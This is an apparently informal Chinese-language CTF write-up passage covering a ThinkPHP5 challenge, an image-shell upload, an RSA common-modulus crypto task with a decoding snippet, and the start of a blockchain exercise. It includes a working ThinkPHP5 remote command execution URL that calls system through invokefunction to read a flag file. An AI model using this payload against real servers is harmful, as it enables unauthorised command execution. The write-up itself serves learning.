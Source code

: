 #### tp5

依旧是最近的漏洞 [ThinkPHP5远程命令执行漏洞POC](http://mzblogg.com/thinkphp_poc/) 

`http://219.219.61.234:10005/public/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat%20../../../../flag`

#### shell?

嗯。。。充满迷惑的一题

第一下弱密码登录发现一个疑似读文件的，结果神它喵过滤x

最后发现还是注入加图片马。。。队友做的，图片绕过的看[链接](https://www.freebuf.com/articles/web/54086.html)叭

#### 现代密码

有n,c1,c2,e1,e2，明显就是rsa共模攻击惹，分分钟拿粗珍藏多年（啊呸x的脚本

但是这个。。。是啥子编码。。。。惊了

[![FdTtYD.md.png](https://s1.ax1x.com/2018/12/16/FdTtYD.md.png)](https://imgchr.com/i/FdTtYD)

这时候窝就想发这个表情包。。![FdTdld.png](https://s1.ax1x.com/2018/12/16/FdTdld.png)

看见米有！看见米有！！！

```
str=str.replace('Z','2')
str=str.replace('T','7')
str=str.replace('O','0')
str=str.replace('I','1')
str=str.replace('S','5')
str=str.replace('B','8')
str=str.replace('g','9')
str=str.replace('A','4')
str=str.replace('b','6')
str=str.replace('E','3')
```

然后共模脚本启动！

![Fd7CtO.png](https://s1.ax1x.com/2018/12/16/Fd7CtO.png)

十六进制才能转文本。。。扎心了

#### ez-Preservation

一天区块链速成！开心x

刚开始先去看了几个学长链接里分享哒视频。。然后发现太鸡儿多了

下载了超可爱的metamask插件，小狐狸头转来转去真的。。戳中萌点啊，就想到窝给她们看狐狸帽叽的时候都嫌弃窝！辣么可爱wwwwww，然后在ropsten测试网上先要饭ing~点击request要饭~就要到惹1 ether！看着转换的USD感觉寄几不用找富婆惹qvq（但都是假的嘤嘤嘤，吸引富婆.jpg

于是转换方式去玩游戏惹 [The Ethernaut byZeppelin](https://ethernaut.zeppelin.solutions/) 

中途跑去看了个视频练了下听力？ [Ethereum Smart Contracts In Solidity](https://www.youtube.com/playlist?list=PLUMwusiHZZhpf8ItZBkR95ekkMGNKvuNR)
